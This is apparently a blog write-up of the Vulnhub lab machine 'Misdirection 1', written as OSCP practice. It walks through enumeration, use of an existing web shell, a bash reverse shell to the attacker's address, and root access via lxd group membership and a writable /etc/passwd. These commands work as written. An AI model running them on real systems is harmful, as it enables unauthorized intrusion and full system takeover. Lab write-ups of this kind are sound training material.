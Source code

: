 +++
title = "Vulnub: Misdirection 1"
date = "2021-04-21"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Sudo", "lxd", "Writeable Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = false
+++

<!--more-->
{{< image src="/img/misdirection1/misdirection.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 24 Sep 2019 | FalconSpy | 

## Summary

For this box, initial access was a web shell discovered. Then with low priv shell we could run bash as brexit user
and were able to pivot to that account. Once we are brexit user, we abuse his membership to the lxd to start a 
privileged container that can read and write the whole file system by mounting it in the container.

## Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.136
Host is up (0.00032s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
## Enumeration

### 8080 (HTTP)

Nmap

```sh
# Nmap 7.91 scan initiated Wed Apr 14 06:31:44 2021 as: nmap -n -Pn -sV -p 8080 --script default,http-enum,http-shellshock,http-backup-finder,http-config-backup --append-output -oN recon-misdirection1/misdirection1-8080-httpnmap.enum 192.168.191.136
Nmap scan report for 192.168.191.136
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

ffuf

```sh
ffuf -ic -c -u http://192.168.191.136:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 
```

```sh
js                      [Status: 301, Size: 322, Words: 20, Lines: 10]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10]
development             [Status: 301, Size: 331, Words: 20, Lines: 10]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

After some directory bruteforcing on both port 80 and 8080 I discovered several directories. On port 8080 the debug directory
contains a web shell.

{{< image src="/img/misdirection1/misdirection-1.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as www-data

Supplying the following command we are able to get a reverse shell.

```sh
bash -c 'bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'
```
shell:

{{< image src="/img/misdirection1/misdirection-2.png" alt="" position="center" style="border-radius: 8px;" >}}

After some basic enumeration we discover www-data has sudo permissions to run /bin/bash as brexit user without
any password requirement.

{{< image src="/img/misdirection1/misdirection-3.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as brexit

```sh
sudo -u brexit /bin/bash
```

{{< image src="/img/misdirection1/misdirection-4.png" alt="" position="center" style="border-radius: 8px;" >}}

On running id we see that brexit is in the lxd group and no images are present.

{{< image src="/img/misdirection1/misdirection-10.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as root

Brexit being in the lxd group allows for privilege escalation. First we need to add am image then create a container.

First we need to get distrobuilder, the compile it. This uses go to compile therefore you need go to be installed.

```sh
wget https://github.com/lxc/distrobuilder/archive/refs/tags/distrobuilder-1.2.zip
7z x distrobuilder-1.2.zip
cd distrobuilder-distrobuilder-1.2 
make
```

You can use go get as the repo instructions recommend but for me it didn't work as expected.

With distrobuilder ready, download the alpine image yaml file to build a small alpine image for lxd

```sh
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
Then run distrobuilder with the alpine yaml file as below.

```sh
sudo ~/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
This will result in two files: lxd.tar.xz and rootfs.squashfs.

We then need to transfer this two files to our victim for privesc.

```sh
# on kali

python3 -m http.server

# on victim

wget 192.168.191.1:8000/lxd.tar.xz
wget 192.168.191.1:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

{{< image src="/img/misdirection1/misdirection-5.png" alt="" position="center" style="border-radius: 8px;" >}}

After adding the image we need to run lxd init and can keep everything default.

```sh
lxd init
```

{{< image src="/img/misdirection1/misdirection-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Then create the container to be privileged and mount the host os file system inside it.

```sh
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
With this we can read the host file system from inside the container and can read root.txt.

{{< image src="/img/misdirection1/misdirection-8.png" alt="" position="center" style="border-radius: 8px;" >}}

To get shell as root I added a public key to authorized_keys of the root user and can ssh in as root.

{{< image src="/img/misdirection1/misdirection-9.png" alt="" position="center" style="border-radius: 8px;" >}}

## Extras

After looking at other writeups, there was another easy privesc that I didn't explore.

- Writeable /etc/passwd file

The passwd file is writeable by the users in the brexit group.

{{< image src="/img/misdirection1/misdirection-11.png" alt="" position="center" style="border-radius: 8px;" >}}

We can add user with id 0 that will give us root privileges.

```sh
openssl passwd -1 -salt user password123

echo 'user:$1$user$nY3qj2koDQU1.5HG4ZTj9/:0:0:User:/root:/bin/bash' >>/etc/passwd
```

{{< image src="/img/misdirection1/misdirection-12.png" alt="" position="center" style="border-radius: 8px;" >}}

## References

https://rioasmara.com/2021/01/29/privilege-escalation-with-lxd/

https://www.hackingarticles.in/lxd-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd
